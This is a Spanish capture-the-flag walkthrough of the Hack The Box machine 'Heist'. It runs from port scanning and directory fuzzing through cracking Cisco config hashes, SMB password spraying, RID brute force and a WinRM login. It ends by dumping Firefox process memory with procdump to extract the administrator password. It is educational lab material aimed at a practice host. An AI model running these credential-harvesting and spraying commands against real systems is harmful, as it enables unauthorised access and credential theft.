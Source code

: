 ```yaml
---
description: '✍️ Autor: MinatoTW🔍 Dificultad: Fácil 📅 Fecha de creación: 20/11/2019'
---
```


# Heist

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.149
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1284).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.149
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1285).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** El puerto 80 está abierto y ejecutando un servidor web **Microsoft IIS 10.0**. Además, la página detectada es **"Support Login Page"** y el recurso solicitado es `login.php`.
* **Puerto 135 (MSRPC):** El puerto **135 (RPC)** está abierto, lo cual indica que el sistema Windows puede estar ejecutando servicios de administración remota.
* **Puerto 445 (SMB):** El puerto 445 está abierto, lo que indica que **SMB (Server Message Block)** está en uso. Esto puede abrir múltiples vectores de ataque.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,135,445 -v 10.10.10.149
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1286).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1287).png" alt=""><figcaption></figcaption></figure>

Le damos a iniciar como invitado.

<figure><img src="../../.gitbook/assets/image (1288).png" alt=""><figcaption></figcaption></figure>

Vemos que hay dos usuarios llamados **Hazard** y **Admin**. Hazard tiene un problema con el router de CISCO. Hacemos una búsqueda de directorios.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.10.149/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1289).png" alt=""><figcaption></figcaption></figure>

Me llama la atención el directorio **attachments**.

<figure><img src="../../.gitbook/assets/image (1290).png" alt=""><figcaption></figcaption></figure>

Nos da error ya que no tenemos permisos por lo que enumeramos los archivos que contiene ese directorio.

```bash
gobuster dir -u http://10.10.10.149/attachments/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,jpg,png,zip,docx,csv
```

<figure><img src="../../.gitbook/assets/image (1302).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el fichero `config.txt`.

<figure><img src="../../.gitbook/assets/image (1291).png" alt=""><figcaption></figcaption></figure>

Vemos unas contraseñas de Cisco por lo que las crackeamos.

{% embed url="https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html" %}

<figure><img src="../../.gitbook/assets/image (1292).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1293).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

```bash
echo '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (1294).png" alt=""><figcaption></figcaption></figure>

Con **crackmapexec** miramos las credenicales posibles con Hazard y esas contraseñas.

```
crackmapexec smb 10.10.10.149 -u Hazard -p contraseñas.txt
```

<figure><img src="../../.gitbook/assets/image (1295).png" alt=""><figcaption></figcaption></figure>

El **RID Bruteforce** es una técnica para enumerar usuarios de un sistema Windows explotando cómo funciona el protocolo SMB por lo que eso hacemos.

```
crackmapexec smb 10.10.10.149 -u Hazard -p stealth1agent --rid-brute
```

<figure><img src="../../.gitbook/assets/image (1296).png" alt=""><figcaption></figcaption></figure>

Han aparecido mas usuarios por lo que descubrimos si tenemos sus contraseñas.

```
crackmapexec smb 10.10.10.149 -u usuarios.txt -p contraseñas.txt
```

<figure><img src="../../.gitbook/assets/image (1297).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado las credenciales de **Chase**. Nos logueamos para tener acceso a **WINRM**.

```
evil-winrm -i 10.10.10.149 -u Chase -p "Q4)sJu\Y8qz*A3?d"
```

<figure><img src="../../.gitbook/assets/image (1298).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

<figure><img src="../../.gitbook/assets/image (1299).png" alt=""><figcaption></figcaption></figure>

El primer punto menciona “Seguir revisando la lista de incidencias”. Esto se puede hacer a través de un navegador. Si recordamos, las incidencias eran la sección donde el usuario "Hazard" tenía problemas con su router Cisco y donde pudimos acceder a su archivo de configuración en los adjuntos. Esto sugiere que quien escribió esta nota monitorea activamente las incidencias en el servidor web.

Además, hemos notado que **Firefox** está instalado en la máquina, a pesar de no ser el navegador predeterminado.

<figure><img src="../../.gitbook/assets/image (1300).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1301).png" alt=""><figcaption></figcaption></figure>

Subimos esto.

{% embed url="https://www.techspot.com/downloads/6550-microsoft-procdump.html" %}

<figure><img src="../../.gitbook/assets/image (1303).png" alt=""><figcaption></figcaption></figure>

**Generar el volcado de memoria**: Lo primero que hago es obtener el volcado de memoria de un proceso, como Firefox, utilizando la herramienta _procdump_. Para ello, ejecuto el siguiente comando en PowerShell, sustituyendo `<PID>` por el ID del proceso que quiero volcar.

```
.\procdump64.exe -ma 6624 -accepteula firefox.dmp
```

<figure><img src="../../.gitbook/assets/image (1304).png" alt=""><figcaption></figcaption></figure>

**Buscar las credenciales**: Una vez que tengo el volcado de memoria, procedo a buscar la contraseña o los hashes de las credenciales dentro del archivo `.dmp`. En este caso, encontré la contraseña del administrador: `4dD!5}x/re8]FBuZ`.

```bash
download firefox.dmp
strings firefox.dmp | grep -ie "login_username\|login_password"
```

<figure><img src="../../.gitbook/assets/image (1305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1306).png" alt=""><figcaption></figcaption></figure>

Conseguimos las credenciales de **administrator** de SMB.

```bash
smbclient //10.10.10.149/C$ -U administrator
```

<figure><img src="../../.gitbook/assets/image (1307).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1308).png" alt=""><figcaption></figcaption></figure>

